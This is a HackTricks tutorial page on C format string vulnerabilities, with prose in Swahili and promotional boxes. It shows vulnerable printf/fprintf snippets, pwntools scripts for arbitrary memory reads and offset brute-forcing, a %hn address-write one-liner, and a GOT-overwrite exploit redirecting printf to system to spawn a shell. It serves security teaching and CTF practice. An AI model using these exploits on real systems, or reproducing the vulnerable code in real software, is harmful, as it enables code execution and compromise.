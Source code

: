 # Format Strings

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

If you are interested in **hacking career** and hack the unhackable - **we are hiring!** (_fluent polish written and spoken required_).

{% embed url="https://www.stmcyber.com/careers" %}

## Basic Information

Katika C **`printf`** ni kazi inayoweza kutumika **kuchapisha** maandiko fulani. **Parameta ya kwanza** ambayo kazi hii inatarajia ni **maandishi halisi yenye waandishi wa fomati**. **Parameta zinazofuata** zinazotarajiwa ni **thamani** za **kuchukua nafasi** waandishi wa fomati kutoka kwa maandiko halisi.

Kazi nyingine zenye udhaifu ni **`sprintf()`** na **`fprintf()`**.

Udhaifu huu unatokea wakati **maandishi ya mshambuliaji yanapotumika kama hoja ya kwanza** kwa kazi hii. Mshambuliaji ataweza kuunda **ingizo maalum linalotumia** uwezo wa **printf format** kusoma na **kuandika data yoyote katika anwani yoyote (inasomeka/inaweza kuandikwa)**. Kwa njia hii, kuwa na uwezo wa **kutekeleza msimbo wowote**.

#### Formatters:
```bash
%08x —> 8 hex bytes
%d —> Entire
%u —> Unsigned
%s —> String
%p —> Pointer
%n —> Number of written bytes
%hn —> Occupies 2 bytes instead of 4
<n>$X —> Direct access, Example: ("%3$d", var1, var2, var3) —> Access to var3
```
**Mifano:**

* Mfano unaoweza kuathiriwa:
```c
char buffer[30];
gets(buffer);  // Dangerous: takes user input without restrictions.
printf(buffer);  // If buffer contains "%x", it reads from the stack.
```
* Matumizi ya Kawaida:
```c
int value = 1205;
printf("%x %x %x", value, value, value);  // Outputs: 4b5 4b5 4b5
```
* Pamoja na Mipangilio Iliyokosekana:
```c
printf("%x %x %x", value);  // Unexpected output: reads random values from the stack.
```
* fprintf inayoweza kutumika:
```c
#include <stdio.h>

int main(int argc, char *argv[]) {
char *user_input;
user_input = argv[1];
FILE *output_file = fopen("output.txt", "w");
fprintf(output_file, user_input); // The user input can include formatters!
fclose(output_file);
return 0;
}
```
### **Kupata Viashiria**

Muundo **`%<n>$x`**, ambapo `n` ni nambari, unaruhusu kuonyesha kwa printf kuchagua parameter ya n (kutoka kwenye stack). Hivyo ikiwa unataka kusoma parameter ya 4 kutoka kwenye stack ukitumia printf unaweza kufanya:
```c
printf("%x %x %x %x")
```
na ungeweza kusoma kutoka kwa param ya kwanza hadi ya nne.

Au unaweza kufanya:
```c
printf("%4$x")
```
na kusoma moja kwa moja ya nne.

Kumbuka kwamba mshambuliaji anadhibiti `printf` **parameta, ambayo kimsingi inamaanisha kwamba** ingizo lake litakuwa kwenye stack wakati `printf` inaitwa, ambayo inamaanisha kwamba anaweza kuandika anwani maalum za kumbukumbu kwenye stack.

{% hint style="danger" %}
Mshambuliaji anayekontrol ingizo hili, ataweza **kuongeza anwani zisizo za kawaida kwenye stack na kufanya `printf` izifike**. Katika sehemu inayofuata itafafanuliwa jinsi ya kutumia tabia hii.
{% endhint %}

## **Kusoma Bila Mpangilio**

Inawezekana kutumia formatter **`%n$s`** kufanya **`printf`** ipate **anwani** iliyoko katika **n nafasi**, ikifuatia na **kuichapisha kana kwamba ni string** (chapisha hadi 0x00 ipatikane). Hivyo ikiwa anwani ya msingi ya binary ni **`0x8048000`**, na tunajua kwamba ingizo la mtumiaji linaanza katika nafasi ya 4 kwenye stack, inawezekana kuchapisha mwanzo wa binary kwa:
```python
from pwn import *

p = process('./bin')

payload = b'%6$s' #4th param
payload += b'xxxx' #5th param (needed to fill 8bytes with the initial input)
payload += p32(0x8048000) #6th param

p.sendline(payload)
log.info(p.clean()) # b'\x7fELF\x01\x01\x01||||'
```
{% hint style="danger" %}
Kumbuka kwamba huwezi kuweka anwani 0x8048000 mwanzoni mwa ingizo kwa sababu mfuatano utawekwa katika 0x00 mwishoni mwa anwani hiyo.
{% endhint %}

### Pata offset

Ili kupata offset kwa ingizo lako unaweza kutuma bytes 4 au 8 (`0x41414141`) ikifuatiwa na **`%1$x`** na **kuongeza** thamani hadi upate `A's`.

<details>

<summary>Brute Force printf offset</summary>
```python
# Code from https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak

from pwn import *

# Iterate over a range of integers
for i in range(10):
# Construct a payload that includes the current integer as offset
payload = f"AAAA%{i}$x".encode()

# Start a new process of the "chall" binary
p = process("./chall")

# Send the payload to the process
p.sendline(payload)

# Read and store the output of the process
output = p.clean()

# Check if the string "41414141" (hexadecimal representation of "AAAA") is in the output
if b"41414141" in output:
# If the string is found, log the success message and break out of the loop
log.success(f"User input is at offset : {i}")
break

# Close the process
p.close()
```
</details>

### Jinsi inavyofaa

Kusoma kwa bahati kunaweza kuwa na manufaa kwa:

* **Kutoa** **binary** kutoka kwenye kumbukumbu
* **Kufikia sehemu maalum za kumbukumbu ambapo** **info** nyeti inahifadhiwa (kama vile canaries, funguo za usimbaji au nywila za kawaida kama katika hii [**CTF challenge**](https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak#read-arbitrary-value))

## **Kuandika kwa Bahati**

Formatter **`%<num>$n`** **inaandika** **idadi ya bytes zilizandika** katika **anwani iliyoonyeshwa** katika param ya \<num> kwenye stack. Ikiwa mshambuliaji anaweza kuandika herufi nyingi kadri atakavyo kwa printf, atakuwa na uwezo wa kufanya **`%<num>$n`** kuandika nambari isiyo na mpangilio katika anwani isiyo na mpangilio.

Kwa bahati, kuandika nambari 9999, si lazima kuongeza 9999 "A"s kwenye ingizo, ili kufanya hivyo inawezekana kutumia formatter **`%.<num-write>%<num>$n`** kuandika nambari **`<num-write>`** katika **anwani inayotolewa na nafasi ya `num`**.
```bash
AAAA%.6000d%4\$n —> Write 6004 in the address indicated by the 4º param
AAAA.%500\$08x —> Param at offset 500
```
Hata hivyo, kumbuka kwamba kawaida ili kuandika anwani kama `0x08049724` (ambayo ni nambari KUBWA kuandika mara moja), **inatumika `$hn`** badala ya `$n`. Hii inaruhusu **kuandika tu Bytes 2**. Kwa hivyo operesheni hii inafanywa mara mbili, moja kwa ajili ya Bytes 2 za juu za anwani na nyingine kwa ajili ya zile za chini.

Kwa hivyo, udhaifu huu unaruhusu **kuandika chochote katika anwani yoyote (kuandika bila mpangilio).**

Katika mfano huu, lengo litakuwa **kufuta** **anwani** ya **kazi** katika jedwali la **GOT** ambalo litaitwa baadaye. Ingawa hii inaweza kutumia mbinu nyingine za kuandika bila mpangilio ili kutekeleza:

{% content-ref url="../arbitrary-write-2-exec/" %}
[arbitrary-write-2-exec](../arbitrary-write-2-exec/)
{% endcontent-ref %}

Tuta **futa** **kazi** ambayo **inapokea** **hoja** zake kutoka kwa **mtumiaji** na **kuielekeza** kwa **`system`** **kazi**.\
Kama ilivyotajwa, kuandika anwani, kawaida hatua 2 zinahitajika: Unap **andika Bytes 2** za anwani na kisha zile nyingine 2. Ili kufanya hivyo **`$hn`** inatumika.

* **HOB** inaitwa kwa Bytes 2 za juu za anwani
* **LOB** inaitwa kwa Bytes 2 za chini za anwani

Kisha, kwa sababu ya jinsi format string inavyofanya kazi unahitaji **kuandika kwanza ndogo** ya \[HOB, LOB] na kisha nyingine.

Ikiwa HOB < LOB\
`[address+2][address]%.[HOB-8]x%[offset]\$hn%.[LOB-HOB]x%[offset+1]`

Ikiwa HOB > LOB\
`[address+2][address]%.[LOB-8]x%[offset+1]\$hn%.[HOB-LOB]x%[offset]`

HOB LOB HOB\_shellcode-8 NºParam\_dir\_HOB LOB\_shell-HOB\_shell NºParam\_dir\_LOB

{% code overflow="wrap" %}
```bash
python -c 'print "\x26\x97\x04\x08"+"\x24\x97\x04\x08"+ "%.49143x" + "%4$hn" + "%.15408x" + "%5$hn"'
```
{% endcode %}

### Pwntools Template

Unaweza kupata **templat** ya kuandaa exploit kwa aina hii ya udhaifu katika:

{% content-ref url="format-strings-template.md" %}
[format-strings-template.md](format-strings-template.md)
{% endcontent-ref %}

Au mfano huu wa msingi kutoka [**hapa**](https://ir0nstone.gitbook.io/notes/types/stack/got-overwrite/exploiting-a-got-overwrite):
```python
from pwn import *

elf = context.binary = ELF('./got_overwrite-32')
libc = elf.libc
libc.address = 0xf7dc2000       # ASLR disabled

p = process()

payload = fmtstr_payload(5, {elf.got['printf'] : libc.sym['system']})
p.sendline(payload)

p.clean()

p.sendline('/bin/sh')

p.interactive()
```
## Format Strings to BOF

Inawezekana kutumia vitendo vya kuandika vya udhaifu wa format string ili **kuandika katika anwani za stack** na kutumia udhaifu wa aina ya **buffer overflow**.

## Other Examples & References

* [https://ir0nstone.gitbook.io/notes/types/stack/format-string](https://ir0nstone.gitbook.io/notes/types/stack/format-string)
* [https://www.youtube.com/watch?v=t1LH9D5cuK4](https://www.youtube.com/watch?v=t1LH9D5cuK4)
* [https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak](https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak)
* [https://guyinatuxedo.github.io/10-fmt\_strings/pico18\_echo/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/pico18\_echo/index.html)
* 32 bit, hakuna relro, hakuna canary, nx, hakuna pie, matumizi ya msingi ya format strings kuvuja bendera kutoka kwenye stack (hakuna haja ya kubadilisha mtiririko wa utekelezaji)
* [https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html)
* 32 bit, relro, hakuna canary, nx, hakuna pie, format string kuandika anwani `fflush` na kazi ya ushindi (ret2win)
* [https://guyinatuxedo.github.io/10-fmt\_strings/tw16\_greeting/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/tw16\_greeting/index.html)
* 32 bit, relro, hakuna canary, nx, hakuna pie, format string kuandika anwani ndani ya main katika `.fini_array` (ili mtiririko urudi nyuma mara moja zaidi) na kuandika anwani kwa `system` katika meza ya GOT ikielekeza kwa `strlen`. Wakati mtiririko unaporudi kwenye main, `strlen` inatekelezwa kwa pembejeo ya mtumiaji na ikielekeza kwa `system`, itatekeleza amri zilizopitishwa.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ikiwa unavutiwa na **kazi ya hacking** na kuhack yasiyoweza kuhackika - **tunatafuta wafanyakazi!** (_kuandika na kuzungumza kwa ufasaha kwa kipolandi kunahitajika_).

{% embed url="https://www.stmcyber.com/careers" %}

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

Support HackTricks

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.
{% endhint %}
